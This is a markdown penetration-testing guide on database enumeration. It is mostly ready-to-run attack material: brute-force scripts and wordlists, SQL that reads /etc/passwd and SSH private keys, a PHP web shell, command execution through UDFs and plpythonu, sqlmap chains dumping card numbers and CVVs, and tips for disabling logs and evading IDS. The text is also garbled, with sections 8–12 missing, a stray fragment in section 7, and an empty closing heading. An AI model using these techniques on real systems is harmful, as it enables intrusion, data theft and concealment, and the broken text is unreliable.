

# 🗄️ Complete Database Enumeration Guide

> **SQL and NoSQL Database Analysis for Penetration Testing**

**Document Path:** `05-service-enumeration/database-enumeration.md` 

---

## 📋 Table of Contents
1. [Introduction & Core Concepts](#introduction--core-concepts)
2. [Database Types & Default Ports](#database-types--default-ports)
3. [Tools & Installation](#tools--installation)
4. [Methodology & Workflow](#methodology--workflow)
5. [Service Discovery](#service-discovery)
6. [Authentication Testing](#authentication-testing)
7. [Database-Specific Enumeration](#database-specific-enumeration)
8. [Advanced Techniques](#advanced-techniques)
9. [Common Vulnerabilities](#common-vulnerabilities)
10. [Reporting & Documentation](#reporting--documentation)
11. [Exam Focus & Practice](#exam-focus--practice)
12. [Troubleshooting](#troubleshooting)

---

## 1. Introduction & Core Concepts

### What is Database Enumeration?
Database enumeration is a critical phase in penetration testing that involves:

- **Service Discovery**: Identifying database services running on target systems
- **Version Detection**: Determining database types, versions, and configurations
- **Authentication Testing**: Attempting to gain unauthorized access using various methods
- **Schema Discovery**: Mapping database structures, tables, and relationships
- **Data Extraction**: Accessing and exfiltrating sensitive information
- **Vulnerability Assessment**: Identifying security weaknesses and misconfigurations

### Why is Database Enumeration Important?
- Databases often contain the most valuable and sensitive data
- Many databases are misconfigured with weak authentication
- Database access can lead to privilege escalation and lateral movement
- SQL injection vulnerabilities are extremely common in web applications

---

## 2. Database Types & Default Ports

### Common Database Services

| Database | Default Port | Protocol | Description | Common Use Cases |
|----------|--------------|----------|-------------|------------------|
| **MySQL** | 3306 | TCP | Open-source relational database | Web applications, WordPress |
| **PostgreSQL** | 5432 | TCP | Advanced open-source RDBMS | Enterprise applications, analytics |
| **Microsoft SQL Server** | 1433 | TCP | Enterprise database system | Windows environments, .NET apps |
| **Oracle Database** | 1521 | TCP | Enterprise-grade RDBMS | Large corporations, ERP systems |
| **Redis** | 6379 | TCP | In-memory key-value store | Caching, session storage |
| **MongoDB** | 27017 | TCP | Document-oriented NoSQL | Modern web applications, APIs |
| **CouchDB** | 5984 | TCP | Document database with REST API | Content management, mobile apps |
| **Cassandra** | 9042 | TCP | Distributed NoSQL database | Big data, high availability |
| **Elasticsearch** | 9200 | TCP | Search and analytics engine | Log analysis, full-text search |

### Alternative Ports to Check
Many administrators change default ports for security. Always scan:
- **High ports**: 8080, 8443, 9000-9999
- **Sequential ports**: 3307, 5433, 1434 (default + 1)
- **Common alternatives**: 33060 (MySQL X Protocol), 5433 (PostgreSQL alt)

---

## 3. Tools & Installation

### Essential Tools

#### Network Scanning
```bash
# Nmap - Network mapper with database scripts
apt update && apt install nmap

# Masscan - High-speed port scanner
apt install masscan
```

#### Database Clients
```bash
# MySQL/MariaDB client
apt install mysql-client

# PostgreSQL client
apt install postgresql-client

# Redis client
apt install redis-tools

# MongoDB client
apt install mongodb-clients

# Microsoft SQL Server client
apt install mssql-tools
```

#### Specialized Tools
```bash
# SQLMap - SQL injection and database takeover
apt install sqlmap

# Hydra - Password cracking
apt install hydra

# Medusa - Alternative password cracker
apt install medusa

# NoSQLMap - NoSQL injection testing
git clone https://github.com/codingo/NoSQLMap.git
```

### Verification Commands
```bash
# Verify installations
mysql --version          # MySQL client
psql --version          # PostgreSQL client
redis-cli --version     # Redis client
mongo --version         # MongoDB client
sqlcmd -?              # MSSQL client
nmap --version         # Nmap
```

---

## 4. Methodology & Workflow

### Standard Database Enumeration Process



### Phase Breakdown

#### Phase 1: Discovery (Reconnaissance)
- Port scanning for database services
- Service version detection
- Banner grabbing and fingerprinting
- Documentation of findings

#### Phase 2: Access Attempts (Gaining Entry)
- Default credential testing
- Common password attempts
- Brute force attacks if necessary
- Anonymous/guest access testing

#### Phase 3: Enumeration (Information Gathering)
- Database listing and access
- Table and column discovery
- User and privilege enumeration
- Configuration assessment

#### Phase 4: Exploitation (Data Extraction)
- Sensitive data identification
- Bulk data extraction
- Privilege escalation attempts
- Lateral movement opportunities

---

## 5. Service Discovery

### Comprehensive Port Scanning

#### Basic Database Port Scan
```bash
# Quick database service discovery
nmap -p 3306,5432,1433,1521,6379,27017,5984 -sV target_ip

# Extended database port range
nmap -p 1433,3306,5432,1521,6379,27017,5984,9042,9200,11211,50000 -sV target_ip

# Full port scan for hidden database services
nmap -p- --open -sV target_ip | grep -E "(mysql|postgres|mssql|oracle|redis|mongo)"
```

#### Advanced Service Detection
```bash
# Aggressive service detection with OS fingerprinting
nmap -A -p 3306,5432,1433,1521,6379,27017 target_ip

# UDP scan for database services (some databases use UDP)
nmap -sU -p 1433,1434,3306 target_ip

# Script scanning for database information
nmap --script "mysql* or postgres* or ms-sql* or oracle* or redis*" -p 3306,5432,1433,1521,6379 target_ip
```

### Service-Specific Detection Scripts

#### MySQL Detection
```bash
# Basic MySQL information
nmap --script mysql-info -p 3306 target_ip

# MySQL user enumeration
nmap --script mysql-users --script-args mysql-users.username=root -p 3306 target_ip

# MySQL database enumeration
nmap --script mysql-databases --script-args mysql-databases.username=root,mysql-databases.password=password -p 3306 target_ip
```

#### PostgreSQL Detection
```bash
# PostgreSQL information gathering
nmap --script pgsql-brute -p 5432 target_ip

# Version and configuration details
nmap --script "pgsql*" -p 5432 target_ip
```

#### Redis Detection
```bash
# Redis information and configuration
nmap --script redis-info -p 6379 target_ip

# Redis brute force
nmap --script redis-brute -p 6379 target_ip
```

---

## 6. Authentication Testing

### Default Credentials Testing

#### MySQL Default Credentials
```bash
# Common MySQL default credentials
mysql -h target_ip -u root -p                    # Password: (blank)
mysql -h target_ip -u root -proot                # Password: root
mysql -h target_ip -u root -padmin               # Password: admin
mysql -h target_ip -u root -ppassword            # Password: password
mysql -h target_ip -u admin -padmin              # Password: admin
mysql -h target_ip -u user -puser                # Password: user
mysql -h target_ip -u mysql -pmysql              # Password: mysql
mysql -h target_ip -u test -ptest                # Password: test
```

#### PostgreSQL Default Credentials
```bash
# Common PostgreSQL default credentials
psql -h target_ip -U postgres                    # Password: (blank)
psql -h target_ip -U postgres                    # Password: postgres
psql -h target_ip -U admin                       # Password: admin
psql -h target_ip -U user                        # Password: user
psql -h target_ip -U dbuser                      # Password: dbuser
psql -h target_ip -U sa                          # Password: sa

# With password specification
export PGPASSWORD='postgres'
psql -h target_ip -U postgres
```

#### Microsoft SQL Server Default Credentials
```bash
# MSSQL default credentials
sqlcmd -S target_ip -U sa -P ''                  # Blank password
sqlcmd -S target_ip -U sa -P 'sa'                # Password: sa
sqlcmd -S target_ip -U sa -P 'admin'             # Password: admin
sqlcmd -S target_ip -U sa -P 'password'          # Password: password
sqlcmd -S target_ip -U administrator -P 'admin'  # Password: admin
```

#### Redis Authentication
```bash
# Redis usually has no authentication by default
redis-cli -h target_ip
redis-cli -h target_ip -a password               # If password is set

# Test common Redis passwords
for pass in "" "redis" "admin" "password" "123456"; do
    echo "Testing password: $pass"
    redis-cli -h target_ip -a "$pass" ping 2>/dev/null && echo "Success with password: $pass"
done
```

### Automated Authentication Testing

#### Using Hydra for Brute Force
```bash
# MySQL brute force
hydra -L users.txt -P passwords.txt mysql://target_ip
hydra -l root -P passwords.txt mysql://target_ip

# PostgreSQL brute force
hydra -L users.txt -P passwords.txt postgres://target_ip
hydra -l postgres -P passwords.txt postgres://target_ip

# MSSQL brute force
hydra -L users.txt -P passwords.txt mssql://target_ip
hydra -l sa -P passwords.txt mssql://target_ip
```

#### Creating Custom Wordlists
```bash
# Common database usernames
cat > db_users.txt << EOF
root
admin
administrator
sa
postgres
mysql
user
dbuser
dbadmin
guest
test
demo
EOF

# Common database passwords
cat > db_passwords.txt << EOF

root
admin
administrator
password
123456
12345
qwerty
letmein
welcome
sa
postgres
mysql
test
demo
guest
EOF
```

---

## 7. Database-Specific Enumeration

### MySQL Enumeration

#### Basic Connection and Information
```bash
# Establish connection
mysql -h target_ip -u root -p

# Basic information gathering
SELECT VERSION();                    # MySQL version
SELECT USER();                      # Current user
SELECT DATABASE();                  # Current database
SHOW VARIABLES LIKE 'version%';     # Detailed version info
SHOW VARIABLES LIKE 'port';         # Port information
```

#### Database and Table Enumeration
```sql
-- 4. Use WHERE clauses to filter
SELECT * FROM users WHERE created_date > '2024-01-01' LIMIT 10;
```

#### Network Optimization
```bash
# For slow network connections:
# 1. Use compression
mysql -h target -u root -p --compress

# 2. Reduce output verbosity
mysql -h target -u root -p --silent

# 3. Use connection pooling
mysql -h target -u root -p --quick
```

### Error Message Interpretation

#### MySQL Error Messages
```bash
# Common MySQL errors and meanings:
ERROR 1045 (28000): Access denied for user 'root'@'host'
# Solution: Wrong username/password, try different credentials

ERROR 2003 (HY000): Can't connect to MySQL server on 'host'
# Solution: Service not running or port blocked

ERROR 1049 (42000): Unknown database 'dbname'
# Solution: Database doesn't exist, enumerate available databases

ERROR 1142 (42000): SELECT command denied to user
# Solution: Insufficient privileges, try different user or operations
```

#### PostgreSQL Error Messages
```bash
# Common PostgreSQL errors:
psql: FATAL: password authentication failed for user "postgres"
# Solution: Wrong password, try default credentials

psql: could not connect to server: Connection refused
# Solution: Service not running or network issue

psql: FATAL: database "dbname" does not exist
# Solution: Specify existing database or use default 'postgres'
```

---

## 13. Automation Scripts

### Comprehensive Database Scanner

```bash
#!/bin/bash
# comprehensive_db_scanner.sh - Advanced database enumeration script

TARGET=$1
OUTPUT_DIR="db-enum-$(date +%Y%m%d-%H%M%S)"

if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target_ip>"
    echo "Example: $0 192.168.1.100"
    exit 1
fi

# Colors for output
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
BLUE='\033[0;34m'
NC='\033[0m' # No Color

# Create output directory
mkdir -p $OUTPUT_DIR
echo -e "${BLUE}[INFO]${NC} Database enumeration started for $TARGET"
echo -e "${BLUE}[INFO]${NC} Results will be saved in $OUTPUT_DIR"

# Function to print status
print_status() {
    echo -e "${BLUE}[INFO]${NC} $1"
}

print_success() {
    echo -e "${GREEN}[SUCCESS]${NC} $1"
}

print_warning() {
    echo -e "${YELLOW}[WARNING]${NC} $1"
}

print_error() {
    echo -e "${RED}[ERROR]${NC} $1"
}

# Phase 1: Service Discovery
print_status "Phase 1: Database Service Discovery"
nmap -p 1433,3306,5432,1521,6379,27017,5984,9042,9200,11211 -sV -oN "$OUTPUT_DIR/service_discovery.txt" $TARGET

# Parse discovered services
MYSQL_OPEN=$(grep "3306.*mysql" "$OUTPUT_DIR/service_discovery.txt")
PGSQL_OPEN=$(grep "5432.*postgresql" "$OUTPUT_DIR/service_discovery.txt")
MSSQL_OPEN=$(grep "1433.*ms-sql" "$OUTPUT_DIR/service_discovery.txt")
REDIS_OPEN=$(grep "6379.*redis" "$OUTPUT_DIR/service_discovery.txt")
MONGODB_OPEN=$(grep "27017.*mongodb" "$OUTPUT_DIR/service_discovery.txt")

# Phase 2: Service-Specific Enumeration
print_status "Phase 2: Service-Specific Enumeration"

# MySQL Enumeration
if [ ! -z "$MYSQL_OPEN" ]; then
    print_success "MySQL service detected - Starting enumeration"
    
    # Nmap scripts for MySQL
    nmap --script mysql-info,mysql-empty-password,mysql-users,mysql-databases -p 3306 -oN "$OUTPUT_DIR/mysql_nmap.txt" $TARGET
    
    # MySQL authentication testing
    print_status "Testing MySQL authentication..."
    
    # Test common credentials
    declare -a mysql_users=("root" "admin" "mysql" "user" "test")
    declare -a mysql_passwords=("" "root" "admin" "mysql" "password" "123456" "test")
    
    for user in "${mysql_users[@]}"; do
        for pass in "${mysql_passwords[@]}"; do
            echo "Testing MySQL $user:$pass" >> "$OUTPUT_DIR/mysql_auth_test.txt"
            
            if [ -z "$pass" ]; then
                timeout 10 mysql -h $TARGET -u $user -e "SELECT USER();" >> "$OUTPUT_DIR/mysql_successful_logins.txt" 2>/dev/null
                if [ $? -eq 0 ]; then
                    print_success "MySQL Login Success: $user:(blank)"
                    
                    # Perform enumeration with successful credentials
                    print_status "Enumerating MySQL databases with $user:(blank)"
                    mysql -h $TARGET -u $user << EOF >> "$OUTPUT_DIR/mysql_enumeration.txt" 2>&1
SELECT VERSION();
SELECT USER();
SHOW DATABASES;
SELECT schema_name FROM information_schema.schemata WHERE schema_name NOT IN ('information_schema','mysql','performance_schema','sys');
SELECT table_name, table_schema FROM information_schema.tables WHERE table_schema NOT IN ('information_schema','mysql','performance_schema','sys') LIMIT 20;
SELECT column_name, table_name, table_schema FROM information_schema.columns WHERE column_name LIKE '%pass%' OR column_name LIKE '%user%' OR column_name LIKE '%email%' OR column_name LIKE '%credit%';
SHOW GRANTS;
SELECT user, host FROM mysql.user;
EOF
                    break 2
                fi
            else
                timeout 10 mysql -h $TARGET -u $user -p$pass -e "SELECT USER();" >> "$OUTPUT_DIR/mysql_successful_logins.txt" 2>/dev/null
                if [ $? -eq 0 ]; then
                    print_success "MySQL Login Success: $user:$pass"
                    
                    # Perform enumeration with successful credentials
                    print_status "Enumerating MySQL databases with $user:$pass"
                    mysql -h $TARGET -u $user -p$pass << EOF >> "$OUTPUT_DIR/mysql_enumeration.txt" 2>&1
SELECT VERSION();
SELECT USER();
SHOW DATABASES;
SELECT schema_name FROM information_schema.schemata WHERE schema_name NOT IN ('information_schema','mysql','performance_schema','sys');
SELECT table_name, table_schema FROM information_schema.tables WHERE table_schema NOT IN ('information_schema','mysql','performance_schema','sys') LIMIT 20;
SELECT column_name, table_name, table_schema FROM information_schema.columns WHERE column_name LIKE '%pass%' OR column_name LIKE '%user%' OR column_name LIKE '%email%' OR column_name LIKE '%credit%';
SHOW GRANTS;
SELECT user, host FROM mysql.user;
EOF
                    break 2
                fi
            fi
        done
    done
fi

# PostgreSQL Enumeration
if [ ! -z "$PGSQL_OPEN" ]; then
    print_success "PostgreSQL service detected - Starting enumeration"
    
    # Nmap scripts for PostgreSQL
    nmap --script pgsql-brute -p 5432 -oN "$OUTPUT_DIR/pgsql_nmap.txt" $TARGET
    
    # PostgreSQL authentication testing
    print_status "Testing PostgreSQL authentication..."
    
    declare -a pgsql_users=("postgres" "admin" "user" "dbuser" "sa")
    declare -a pgsql_passwords=("" "postgres" "admin" "password" "123456" "user")
    
    for user in "${pgsql_users[@]}"; do
        for pass in "${pgsql_passwords[@]}"; do
            echo "Testing PostgreSQL $user:$pass" >> "$OUTPUT_DIR/pgsql_auth_test.txt"
            
            if [ -z "$pass" ]; then
                timeout 10 psql -h $TARGET -U $user -c "SELECT current_user;" >> "$OUTPUT_DIR/pgsql_successful_logins.txt" 2>/dev/null
            else
                export PGPASSWORD="$pass"
                timeout 10 psql -h $TARGET -U $user -c "SELECT current_user;" >> "$OUTPUT_DIR/pgsql_successful_logins.txt" 2>/dev/null
            fi
            
            if [ $? -eq 0 ]; then
                print_success "PostgreSQL Login Success: $user:$pass"
                
                # Perform enumeration
                print_status "Enumerating PostgreSQL databases with $user:$pass"
                if [ -z "$pass" ]; then
                    psql -h $TARGET -U $user << EOF >> "$OUTPUT_DIR/pgsql_enumeration.txt" 2>&1
SELECT version();
SELECT current_user;
SELECT current_database();
SELECT datname FROM pg_database;
SELECT schema_name FROM information_schema.schemata WHERE schema_name NOT LIKE 'pg_%' AND schema_name != 'information_schema';
SELECT table_name, table_schema FROM information_schema.tables WHERE table_schema NOT LIKE 'pg_%' AND table_schema != 'information_schema' LIMIT 20;
SELECT column_name, table_name, table_schema FROM information_schema.columns WHERE column_name ILIKE '%pass%' OR column_name ILIKE '%user%' OR column_name ILIKE '%email%' OR column_name ILIKE '%credit%';
SELECT usename, usesuper FROM pg_user;
EOF
                else
                    export PGPASSWORD="$pass"
                    psql -h $TARGET -U $user << EOF >> "$OUTPUT_DIR/pgsql_enumeration.txt" 2>&1
SELECT version();
SELECT current_user;
SELECT current_database();
SELECT datname FROM pg_database;
SELECT schema_name FROM information_schema.schemata WHERE schema_name NOT LIKE 'pg_%' AND schema_name != 'information_schema';
SELECT table_name, table_schema FROM information_schema.tables WHERE table_schema NOT LIKE 'pg_%' AND table_schema != 'information_schema' LIMIT 20;
SELECT column_name, table_name, table_schema FROM information_schema.columns WHERE column_name ILIKE '%pass%' OR column_name ILIKE '%user%' OR column_name ILIKE '%email%' OR column_name ILIKE '%credit%';
SELECT usename, usesuper FROM pg_user;
EOF
                fi
                break 2
            fi
        done
    done
fi

# Redis Enumeration
if [ ! -z "$REDIS_OPEN" ]; then
    print_success "Redis service detected - Starting enumeration"
    
    # Test Redis access (usually no authentication)
    print_status "Testing Redis access..."
    
    timeout 10 redis-cli -h $TARGET ping >> "$OUTPUT_DIR/redis_access_test.txt" 2>&1
    if [ $? -eq 0 ]; then
        print_success "Redis access successful - No authentication required"
        
        # Perform Redis enumeration
        print_status "Enumerating Redis database"
        redis-cli -h $TARGET << EOF >> "$OUTPUT_DIR/redis_enumeration.txt" 2>&1
INFO
CONFIG GET "*"
DBSIZE
KEYS *
EOF
    else
        print_warning "Redis access failed - Authentication may be required"
        
        # Test common Redis passwords
        declare -a redis_passwords=("redis" "admin" "password" "123456")
        for pass in "${redis_passwords[@]}"; do
            timeout 10 redis-cli -h $TARGET -a $pass ping >> "$OUTPUT_DIR/redis_access_test.txt" 2>&1
            if [ $? -eq 0 ]; then
                print_success "Redis authentication successful with password: $pass"
                redis-cli -h $TARGET -a $pass << EOF >> "$OUTPUT_DIR/redis_enumeration.txt" 2>&1
INFO
CONFIG GET "*"
DBSIZE
KEYS *
EOF
                break
            fi
        done
    fi
fi

# MongoDB Enumeration
if [ ! -z "$MONGODB_OPEN" ]; then
    print_success "MongoDB service detected - Starting enumeration"
    
    # Test MongoDB access
    print_status "Testing MongoDB access..."
    
    timeout 10 mongo $TARGET:27017 --eval "printjson(db.adminCommand('listCollections'))" >> "$OUTPUT_DIR/mongodb_access_test.txt" 2>&1
    if [ $? -eq 0 ]; then
        print_success "MongoDB access successful"
        
        # Perform MongoDB enumeration
        print_status "Enumerating MongoDB databases"
        mongo $TARGET:27017 << EOF >> "$OUTPUT_DIR/mongodb_enumeration.txt" 2>&1
db.version()
db.adminCommand("listDatabases")
show dbs
use admin
db.getUsers()
show collections
EOF
    fi
fi

# Phase 3: Summary Report Generation
print_status "Phase 3: Generating summary report"

cat > "$OUTPUT_DIR/SUMMARY_REPORT.txt" << EOF
================================================================
DATABASE ENUMERATION SUMMARY REPORT
================================================================

Target: $TARGET
Scan Date: $(date)
Output Directory: $OUTPUT_DIR

================================================================
SERVICES DISCOVERED:
================================================================

EOF

# Add service discovery results
grep -E "(mysql|postgresql|redis|mongodb|ms-sql)" "$OUTPUT_DIR/service_discovery.txt" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"

echo "" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "================================================================" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "AUTHENTICATION RESULTS:" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "================================================================" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"

# Add authentication results if available
if [ -f "$OUTPUT_DIR/mysql_successful_logins.txt" ]; then
    echo "" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
    echo "MySQL Successful Logins:" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
    cat "$OUTPUT_DIR/mysql_successful_logins.txt" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
fi

if [ -f "$OUTPUT_DIR/pgsql_successful_logins.txt" ]; then
    echo "" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
    echo "PostgreSQL Successful Logins:" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
    cat "$OUTPUT_DIR/pgsql_successful_logins.txt" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
fi

echo "" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "================================================================" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "SECURITY FINDINGS:" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "================================================================" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"

# Analyze findings for security issues
if grep -q "root:" "$OUTPUT_DIR/mysql_successful_logins.txt" 2>/dev/null; then
    echo "- CRITICAL: MySQL root access achieved with weak/default credentials" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
fi

if grep -q "postgres:" "$OUTPUT_DIR/pgsql_successful_logins.txt" 2>/dev/null; then
    echo "- CRITICAL: PostgreSQL admin access achieved with weak/default credentials" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
fi

if grep -q "PONG" "$OUTPUT_DIR/redis_access_test.txt" 2>/dev/null; then
    echo "- HIGH: Redis database accessible without authentication" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
fi

echo "" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "================================================================" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "RECOMMENDATIONS:" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "================================================================" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "- Change all default database passwords immediately" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "- Implement strong authentication mechanisms" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "- Enable database connection encryption (SSL/TLS)" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "- Restrict database network access using firewalls" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "- Regular security audits and access reviews" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"
echo "- Remove or secure test/development databases" >> "$OUTPUT_DIR/SUMMARY_REPORT.txt"

print_success "Database enumeration completed!"
print_success "Summary report: $OUTPUT_DIR/SUMMARY_REPORT.txt"
print_status "All detailed results available in: $OUTPUT_DIR/"

# Display quick summary on screen
echo ""
echo "================================================================"
echo "QUICK SUMMARY:"
echo "================================================================"
cat "$OUTPUT_DIR/SUMMARY_REPORT.txt" | grep -E "(mysql|postgresql|redis|mongodb|CRITICAL|HIGH)"
echo "================================================================"
```

### Quick Database Checker Script

```bash
#!/bin/bash
# quick_db_check.sh - Fast database service checker for exams

TARGET=$1

if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target_ip>"
    exit 1
fi

echo "[+] Quick database service check for $TARGET"

# Fast port scan for common database ports
echo "[+] Scanning common database ports..."
nmap -p 3306,5432,1433,6379,27017 -sV --open $TARGET | grep -E "(mysql|postgresql|ms-sql|redis|mongodb)"

# Quick authentication tests
echo ""
echo "[+] Testing common database credentials..."

# Test MySQL
if nmap -p 3306 $TARGET | grep -q "3306.*open"; then
    echo -n "MySQL (3306): "
    timeout 5 mysql -h $TARGET -u root -e "SELECT 'SUCCESS - root with blank password';" 2>/dev/null || \
    timeout 5 mysql -h $TARGET -u root -proot -e "SELECT 'SUCCESS - root:root';" 2>/dev/null || \
    timeout 5 mysql -h $TARGET -u admin -padmin -e "SELECT 'SUCCESS - admin:admin';" 2>/dev/null || \
    echo "Authentication failed"
fi

# Test PostgreSQL
if nmap -p 5432 $TARGET | grep -q "5432.*open"; then
    echo -n "PostgreSQL (5432): "
    timeout 5 psql -h $TARGET -U postgres -c "SELECT 'SUCCESS - postgres with no password';" 2>/dev/null || \
    (export PGPASSWORD='postgres'; timeout 5 psql -h $TARGET -U postgres -c "SELECT 'SUCCESS - postgres:postgres';" 2>/dev/null) || \
    echo "Authentication failed"
fi

# Test Redis
if nmap -p 6379 $TARGET | grep -q "6379.*open"; then
    echo -n "Redis (6379): "
    timeout 5 redis-cli -h $TARGET ping 2>/dev/null | grep -q "PONG" && echo "SUCCESS - No authentication required" || echo "Authentication required or failed"
fi

echo ""
echo "[+] Quick check completed!"
```

---

## 14. Advanced Exploitation Techniques

### Database to System Compromise

#### MySQL Privilege Escalation
```sql
-- Check for dangerous MySQL privileges
SELECT user, host, File_priv, Process_priv, Super_priv FROM mysql.user WHERE user = USER();

-- File system interaction
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/root/.ssh/id_rsa');

-- Write web shell
SELECT "<?php system($_GET['c']); ?>" INTO OUTFILE '/var/www/html/shell.php';

-- User-Defined Functions (UDF) for code execution
CREATE FUNCTION sys_exec RETURNS STRING SONAME 'lib_mysqludf_sys.so';
SELECT sys_exec('id');
```

#### PostgreSQL Advanced Exploitation
```sql
-- Check PostgreSQL version and capabilities
SELECT version();
SELECT current_setting('is_superuser');

-- File system access
COPY (SELECT 'test') TO '/tmp/test.txt';

-- Command execution via functions (if permissions allow)
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('whoami > /tmp/whoami.txt');

-- Language-based code execution
CREATE LANGUAGE plpythonu;
CREATE FUNCTION execute(cmd text) RETURNS text AS $
import subprocess
return subprocess.check_output(cmd, shell=True)
$ LANGUAGE plpythonu;

SELECT execute('id');
```

### Cross-Database Attacks

#### Database Lateral Movement
```sql
-- MySQL: Enumerate other database connections
SHOW PROCESSLIST;
SELECT user, host FROM mysql.user;

-- MSSQL: Linked server exploitation
SELECT * FROM sys.servers;
EXEC sp_addlinkedserver 'OTHERAPP', 'SQL Server';
SELECT * FROM OPENQUERY(OTHERAPP, 'SELECT @@version');
```

#### Data Exfiltration Techniques
```bash
# MySQL bulk data export
mysqldump -h target -u root -p --all-databases > all_databases.sql

# PostgreSQL data export
pg_dump -h target -U postgres -W --all > all_databases.sql

# Redis data export
redis-cli -h target --rdb dump.rdb

# Automated sensitive data extraction
mysql -h target -u root -p -e "
SELECT table_schema, table_name, column_name 
FROM information_schema.columns 
WHERE column_name REGEXP 'pass|pwd|credit|ssn|social' 
INTO OUTFILE '/tmp/sensitive_columns.txt';"
```

---

## 15. Defense Evasion

### Avoiding Detection

#### Stealth Scanning Techniques
```bash
# Slow scan to avoid IDS detection
nmap -p 3306,5432,1433 -sS -T1 target

# Fragmented packets
nmap -p 3306 -f target

# Decoy scanning
nmap -p 3306 -D 192.168.1.10,192.168.1.11,192.168.1.12 target

# Source port manipulation
nmap -p 3306 --source-port 53 target
```

#### Connection Obfuscation
```bash
# Use different connection methods
mysql -h target -u root -p --protocol=TCP --ssl-mode=REQUIRED

# Connect through proxy
proxychains mysql -h target -u root -p

# Connection timing variations
for i in {1..5}; do
    mysql -h target -u root -p -e "SELECT 1;" 2>/dev/null
    sleep $((RANDOM % 30))
done
```

### Log Manipulation

#### MySQL Log Evasion
```sql
-- Check logging status
SHOW VARIABLES LIKE 'general_log%';
SHOW VARIABLES LIKE 'log_output';

-- Disable logging temporarily (if privileges allow)
SET GLOBAL general_log = 'OFF';
-- Perform malicious activities
SET GLOBAL general_log = 'ON';

-- Use comments to obfuscate queries
SELECT/*comment*/user()/*another comment*/;
```

#### PostgreSQL Log Evasion
```sql
-- Check logging configuration
SHOW log_statement;
SHOW log_directory;

-- Use case variations to avoid pattern matching
sElEcT * FrOm pg_user;

-- Function-based queries to obfuscate intent
SELECT encode(decode('select * from pg_user', 'escape'), 'base64');
```

---

## 16. Real-World Case Studies

### Case Study 1: E-commerce Application Database Breach

#### Scenario
- **Target**: Online shopping platform
- **Initial Access**: Web application vulnerability
- **Database**: MySQL backend with customer data

#### Attack Chain
```bash
# 1. Web application SQL injection discovery
sqlmap -u "http://shop.target.com/product.php?id=1" --dbs

# 2. Database enumeration
sqlmap -u "http://shop.target.com/product.php?id=1" -D shop_db --tables

# 3. Customer data extraction
sqlmap -u "http://shop.target.com/product.php?id=1" -D shop_db -T customers --dump

# 4. Credit card information discovery
sqlmap -u "http://shop.target.com/product.php?id=1" -D shop_db -T payments -C card_number,expiry,cvv --dump

# 5. Administrative access escalation
sqlmap -u "http://shop.target.com/product.php?id=1" --os-shell
```

#### Lessons Learned
- Input validation prevents SQL injection
- Database encryption protects sensitive data at rest
- Proper access controls limit damage scope
- Regular security testing identifies vulnerabilities

### Case Study 2: Corporate Network Database Compromise

#### Scenario
- **Target**: Internal corporate network
- **Initial Access**: Weak database authentication
- **Impact**: Employee data and financial records exposed

#### Attack Methodology
```bash
# 1. Network reconnaissance
nmap -sn 192.168.10.0/24
nmap -p 3306,5432,1433 192.168.10.0/24 --open

# 2. Database service identification
nmap -sV -p 3306,5432,1433 192.168.10.50

# 3. Authentication testing
mysql -h 192.168.10.50 -u root -p  # blank password successful

# 4. Database enumeration
mysql> SHOW DATABASES;
mysql> USE hr_database;
mysql> SHOW TABLES;

# 5. Sensitive data extraction
mysql> SELECT employee_id, name, ssn, salary FROM employees;
mysql> SELECT * FROM payroll WHERE salary > 100000;
```

#### Mitigation Strategies Implemented
- Changed default database passwords
- Implemented network segmentation
- Enabled database audit logging
- Restricted administrative access
- Regular access reviews and monitoring

---

## 17. Conclusion and Best Practices

### Key Takeaways for Database Enumeration

#### Critical Success Factors
